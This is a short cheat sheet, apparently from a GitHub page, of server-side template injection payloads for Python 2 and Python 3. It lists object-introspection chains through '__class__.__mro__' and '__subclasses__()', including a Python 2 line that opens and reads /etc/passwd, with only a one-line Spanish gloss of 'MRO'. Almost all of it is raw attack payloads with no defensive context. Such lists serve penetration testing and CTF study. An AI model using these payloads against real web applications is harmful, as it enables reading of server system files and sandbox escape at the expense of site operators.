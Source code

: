 ### SSTI
```
PYTHON_2
''.__class__
''.__class__.__mro__[2]
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
PYTHON_3
''.__class__
''.__class__.__mro__[1].__subclasses__()
''.__class__.__mro__[1].__subclasses__()[40]
dir(''.__class__.__mro__[1].__subclasses__()[40])
```

**MRO:** Método Orden de Resolución
